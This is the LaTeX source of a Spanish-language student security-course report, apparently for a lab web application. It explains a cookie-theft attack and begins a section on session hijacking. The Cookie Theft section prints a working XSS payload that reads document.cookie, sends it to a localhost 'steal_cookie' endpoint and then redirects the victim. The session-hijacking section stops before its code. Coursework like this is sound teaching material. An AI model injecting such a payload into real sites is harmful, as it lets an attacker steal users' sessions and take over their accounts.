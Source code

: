 \documentclass[a4paper,12pt]{article}
\begin{document}
\title{Proyecto 2}
\author{
Christofer Fabián Chávez Carazas \\
\small{Universidad Nacional de San Agustín} \\
\small{Seguridad Computacional}
}

\maketitle

\section{Ataques}
\subsection{Cookie Theft}
El objetivo del ataque es obtener la cookie de un usuario y enviarla a una url. La cookie se obtiene por medio de XSS
en la página \textit{profile}. El código \textit{JavaScript} se coloca en la caja de texto ubicada en esa pantalla. 
La solución es la siguiente:

\begin{lstlisting}
<script>
  var req = new XMLHttpRequest();
  var cookie = document.cookie.split(';')[1];
  req.open('GET', 'http://localhost:3000/steal_cookie?cookie=' + cookie,false);
  req.send();
  window.location='http://localhost:3000/profile?username=user1';
</script>
\end{lstlisting}

Se utiliza \textit{XMLHttpRequest} para hacer las peticiones. Se obtiene la cookie mediante la función \textit{document.cookie}.
Se divide el resultado y se obtiene la segunda cookie, que es la que nos interesa. La cookie se manda a la url y luego se
redirecciona al usuario a la página \textit{profile} del \textit{user1}

\subsection{Session Hijacking with Cookies}
El objetivo del ataque es suplantar al \textit{user1} modificando las cokies. Las cookies de la web están divididas en dos partes:
la primera nos da detalles del usuario, en esta parte nos importa el parámetro \textit{logged\_in\_id}, y la segunda parte que es
un token generado al iniciar la sesión. La solución se muestra en el siguiente código:
\end{document}
